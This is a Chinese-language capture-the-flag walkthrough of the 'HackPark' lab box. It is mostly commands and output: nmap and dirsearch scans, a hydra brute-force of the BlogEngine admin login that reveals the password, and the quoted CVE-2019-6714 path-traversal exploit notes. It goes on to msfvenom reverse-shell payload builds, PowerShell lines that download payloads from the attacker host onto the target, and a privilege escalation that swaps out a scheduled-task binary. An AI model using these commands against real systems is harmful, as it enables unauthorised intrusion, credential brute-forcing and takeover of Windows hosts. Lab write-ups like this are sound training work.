 #服务扫描

nmap -sV -Pn -A 10.10.143.193
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-24 06:04 EDT
Nmap scan report for 10.10.143.193
Host is up (0.31s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 8.5
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 6 disallowed entries 
| /Account/*.* /search /search.aspx /error404.aspx 
|_/archive /archive.aspx
|_http-server-header: Microsoft-IIS/8.5
|_http-title: hackpark | hackpark amusements
3389/tcp open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=hackpark
| Not valid before: 2021-08-23T09:45:12
|_Not valid after:  2022-02-22T09:45:12
|_ssl-date: 2021-08-24T10:05:17+00:00; -1s from scanner time.
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2012 (98%)
OS CPE: cpe:/o:microsoft:windows_server_2012:r2
Aggressive OS guesses: Microsoft Windows Server 2012 R2 (98%), Microsoft Windows Server 2012 (89%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -1s

TRACEROUTE (using port 3389/tcp)
HOP RTT       ADDRESS
1   171.12 ms 10.13.0.1
2   ... 3
4   309.74 ms 10.10.143.193

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.38 seconds


#小丑名字
根据图片，放到谷歌中搜索，小丑回魂2，剧中小丑的名字：Pennywise


#爆破目录
# python3 dirsearch.py -u http://10.10.143.193 -e *                                              

 _|. _ _  _  _  _ _|_    v0.3.8
(_||| _) (/_(_|| (_| )

Extensions: CHANGELOG.md | HTTP method: get | Threads: 10 | Wordlist size: 6099

Error Log: /root/dirsearch/logs/errors-21-08-24_06-13-39.log

Target: http://10.10.143.193

[06:13:40] Starting: 
[06:13:42] 403 -  312B  - /%2e%2e/google.com
[06:14:08] 301 -  152B  - /account  ->  http://10.10.143.193/account/            
[06:14:08] 403 -    1KB - /Account/            
[06:14:08] 403 -    1KB - /account/
[06:14:12] 500 -    2KB - /admin%20/                                 
[06:14:14] 500 -    2KB - /admin.                      
[06:14:14] 302 -  173B  - /admin  ->  http://10.10.143.193/Account/login.aspx?ReturnURL=/admin
[06:14:14] 302 -  173B  - /ADMIN  ->  http://10.10.143.193/Account/login.aspx?ReturnURL=/ADMIN
[06:14:14] 302 -  173B  - /Admin  ->  http://10.10.143.193/Account/login.aspx?ReturnURL=/Admin
[06:14:15] 302 -  174B  - /admin/  ->  http://10.10.143.193/Account/login.aspx?ReturnURL=/admin/
[06:14:15] 302 -  181B  - /admin/?/login  ->  http://10.10.143.193/Account/login.aspx?ReturnURL=/admin/?/login
[06:14:18] 302 -  179B  - /admin/index  ->  http://10.10.143.193/Account/login.aspx?ReturnURL=/admin/index  
[06:14:41] 500 -    1KB - /api/                                                                                   
[06:14:43] 200 -    8KB - /archive                           
[06:14:44] 200 -    8KB - /archiver      
[06:14:44] 200 -    8KB - /archives
[06:14:44] 301 -  158B  - /aspnet_client  ->  http://10.10.143.193/aspnet_client/
[06:14:52] 500 -    1KB - /blog                                                
[06:14:52] 500 -    1KB - /Blog
[06:14:52] 500 -    1KB - /blog/error_log
[06:14:52] 500 -    1KB - /blog/fckeditor
[06:14:52] 500 -    1KB - /blog/wp-content/backup-db/
[06:14:52] 500 -    1KB - /blog/wp-content/backups/
[06:14:52] 500 -    1KB - /blog/wp-login
[06:14:52] 500 -    1KB - /blog/wp-login.php
[06:15:04] 200 -   13KB - /contact                                             
[06:15:04] 200 -   13KB - /contact_us                
[06:15:04] 200 -   13KB - /contactus
[06:15:04] 301 -  152B  - /content  ->  http://10.10.143.193/content/
[06:15:04] 200 -   13KB - /contacts            
[06:15:11] 500 -    2KB - /Default                        
[06:15:11] 500 -    2KB - /default2.CHANGELOG.md
[06:15:11] 500 -    2KB - /DefaultWebApp
[06:15:11] 500 -    2KB - /default 
[06:15:23] 301 -  150B  - /fonts  ->  http://10.10.143.193/fonts/                                     
[06:15:38] 500 -    2KB - /javax.faces.resource.../WEB-INF/web.xml.jsf                                         
[06:16:17] 500 -    2KB - /rating_over.                                                                 
[06:16:20] 200 -  303B  - /robots.txt                      
[06:16:21] 301 -  152B  - /scripts  ->  http://10.10.143.193/scripts/                                   
[06:16:21] 403 -    1KB - /scripts/
[06:16:21] 301 -  152B  - /Scripts  ->  http://10.10.143.193/Scripts/                
[06:16:22] 200 -    8KB - /search_admin                                                
[06:16:22] 200 -    8KB - /search
[06:16:22] 200 -    8KB - /Search
[06:16:25] 302 -  175B  - /setup  ->  http://10.10.143.193/Account/login.aspx?ReturnUrl=%2fsetup                  
[06:16:25] 302 -  178B  - /setup/  ->  http://10.10.143.193/Account/login.aspx?ReturnUrl=%2fsetup%2f
[06:16:38] 500 -    2KB - /TechnologySamples/Calendar/                                              
[06:16:43] 200 -    8KB - /Trace.axd                                        
[06:16:51] 500 -    2KB - /WEB-INF./web.xml                          
                                                                                        
Task Completed                    

#爆破登录密码,注意__VIEWSTATE和__EVENTVALIDATION这两个隐藏在页面的元素，也需要把他们的值提交

hydra -f -l admin -P /usr/share/wordlists/rockyou.txt 10.10.248.118 http-post-form "/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=Dm1aKq8kfr0YaRND38UD/ACXHlMRS2ejVh/vsNHR91Tss4+m5teMCVxIWlDbOwsG8LDLps9QcTKeIkKEttafVYRLJ3knDpcy4ZyWgSX4bwKnxWyaPX4XOVBnBZBzSnzNh4OiLS9XgJvEb7wLFzEzFQrx7g92WE7dtanovGSWntP3hIfg&__EVENTVALIDATION=bXobeqArLseO60c3Mdy5+kw+t8gUCgXKMwrgihnfRoY8DwqXR3XneXuJInVFg8YAjEYaVOo/fCvZ/M/03H4iuIgLA4/pbd64b8pFX3WhVZc9k/kDmmJf9/yOlqGKfjNnlLCw3DXG7on3RZ2kGCx6D5eKCafnsItbabOVh5ARyDUwIglM&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"


用户名：admin
密码:1qaz2wsx


#web软件
BlogEngine

#版本号
3.3.6.0

#漏洞号
CVE:
2019-6714
https://www.exploit-db.com/exploits/46353

#利用方法
/*
 * CVE-2019-6714
 *
 * Path traversal vulnerability leading to remote code execution.  This 
 * vulnerability affects BlogEngine.NET versions 3.3.6 and below.  This 
 * is caused by an unchecked "theme" parameter that is used to override
 * the default theme for rendering blog pages.  The vulnerable code can 
 * be seen in this file:
 * 
 * /Custom/Controls/PostList.ascx.cs
 *
 * Attack:
 *
 * First, we set the TcpClient address and port within the method below to 
 * our attack host, who has a reverse tcp listener waiting for a connection.
 * Next, we upload this file through the file manager.  In the current (3.3.6)
 * version of BlogEngine, this is done by editing a post and clicking on the 
 * icon that looks like an open file in the toolbar.  Note that this file must
 * be uploaded as PostView.ascx. Once uploaded, the file will be in the
 * /App_Data/files directory off of the document root. The admin page that
 * allows upload is:
 *
 * http://10.10.10.10/admin/app/editor/editpost.cshtml
 *
 *
 * Finally, the vulnerability is triggered by accessing the base URL for the 
 * blog with a theme override specified like so:
 *
 * http://10.10.10.10/?theme=../../App_Data/files
 *
 */

#编译一个稳定的shell，拿到meterpreter
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.13.21.169 LPORT=4444 -f exe -o shell.exe

#x64 meterpreter
msfvenom -p windows/x64/meterpreter_reverse_tcp  LHOST=10.13.21.169 LPORT=4445 -f exe > Message.exe

#从靶机下载到本地，注意要放到c:\Windows\Temp下，其他文件夹可能没有权限
powershell -c "Invoke-WebRequest -Uri 'http://10.13.21.169:8000/Message.exe' -OutFile 'c:\Windows\Temp\Message.exe'"

#msf 监听
1，use exploit/multi/handler 
2，set playload windows/meterpreter/reverse_tcp


#提权到adminstrator。Message.exe文件每30秒会以adminstrator的身份执行一次。

1，编译木马文件反弹shell，文件名Message.exe
msfvenom -p windows/x64/meterpreter_reverse_tcp  LHOST=10.13.21.169 LPORT=4445 -f exe > Message.exe

2，上传文件，替换定时任务文件，如果从meterpret中替换，会报权限不足，从shell直接上传不会有这个问题
powershell -c "Invoke-WebRequest -Uri 'http://10.13.21.169:8000/Message.exe' -OutFile 'C:\Program Files (x86)\SystemScheduler\Message.exe'"


run ost/multi/recon/local_exploit_suggester 

[-] The specified meterpreter session script could not be found: ost/multi/recon/local_exploit_suggester
meterpreter > run post/multi/recon/local_exploit_suggester 

[*] 10.10.151.70 - Collecting local exploits for x64/windows...
[*] 10.10.151.70 - 24 exploit checks are being tried...
[+] 10.10.151.70 - exploit/windows/local/bypassuac_dotnet_profiler: The target appears to be vulnerable.
[+] 10.10.151.70 - exploit/windows/local/bypassuac_sdclt: The target appears to be vulnerable.
[+] 10.10.151.70 - exploit/windows/local/cve_2019_1458_wizardopium: The target appears to be vulnerable.
[-] 10.10.151.70 - Post failed: NoMethodError undefined method `reverse!' for nil:NilClass
[-] 10.10.151.70 - Call stack:
[-] 10.10.151.70 -   /usr/share/metasploit-framework/lib/msf/core/session/provider/single_command_shell.rb:136:in `shell_command_token_win32'
[-] 10.10.151.70 -   /usr/share/metasploit-framework/lib/msf/core/session/provider/single_command_shell.rb:84:in `shell_command_token'
[-] 10.10.151.70 -   /usr/share/metasploit-framework/modules/exploits/windows/local/cve_2020_0787_bits_arbitrary_file_move.rb:96:in `check'
[-] 10.10.151.70 -   /usr/share/metasploit-framework/modules/post/multi/recon/local_exploit_suggester.rb:121:in `block in run'
[-] 10.10.151.70 -   /usr/share/metasploit-framework/modules/post/multi/recon/local_exploit_suggester.rb:119:in `each'
[-] 10.10.151.70 -   /usr/share/metasploit-framework/modules/post/multi/recon/local_exploit_suggester.rb:119:in `run'




#提权模块
exploit/windows/local/cve_2019_1458_wizardopium


#without msf
msfvenom -p windows/shell_reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.13.21.169 LPORT=4444 -f exe -o shell2.exe

#下载到本地
powershell -c "Invoke-WebRequest -Uri 'http://10.13.21.169:8000/winPEAS.bat' -OutFile 'c:\Windows\Temp\winPEAS.bat'"